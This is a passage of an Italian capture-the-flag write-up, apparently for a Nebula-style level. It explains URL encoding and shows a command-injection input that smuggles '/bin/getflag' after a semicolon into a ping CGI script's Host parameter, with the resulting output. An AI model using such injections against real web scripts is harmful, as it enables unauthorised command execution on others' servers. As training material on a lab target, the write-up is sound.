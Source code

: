 \vspace{5mm}

\textit{"WARNING:
calling \texttt{param()} in list context can lead to
vulnerabilities if you do not sanitise user input
as it is possible to inject other param keys
and values into your code.. ."}

\vspace{5mm}

Nel comando che abbiamo digitato sono stati usati due caratteri speciali, ovvero \texttt{;} per delimitare i campi e \texttt{/} per separare le directory. Leggiamo la definizione dei caratteri speciali negli URL\footnote{\href{https://tools.ietf.org/html/rfc3986.html}{https://tools.ietf.org/html/rfc3986.html}}. La procedura di escape dei caratteri speciali in un URL prende il nome di \textbf{URL encoding}. Dato il carattere speciale, si individua il suo codice ASCII, lo si scrive in esadecimale e gli si prende il carattere di escape (\%).

\begin{table}[htbp!]
\centering
\begin{tabular}{|l|l|l|} 
\hline
\textbf{Carattere}                   & ;    & /     \\ 
\hline
\textbf{Codice ASCII in base 10}     & 59   & 47    \\ 
\hline
\textbf{Codice ASCII in esadecimale} & 3B   & 2F    \\ 
\hline
\textbf{Codifica URL encoded}        & \%3B & \%2F  \\
\hline
\end{tabular}
\end{table}
\FloatBarrier

L'input corretto da inviare allo script \texttt{index.cgi} prevede l'URL encoding dei caratteri speciali. Tentiamo nuovamente l'attacco digitando il comando a cui è stato fatto l'escape dei caratteri:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag07/index.cgi "Host=8.8.8.8%3B%2Fbin%2Fgetflag"
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

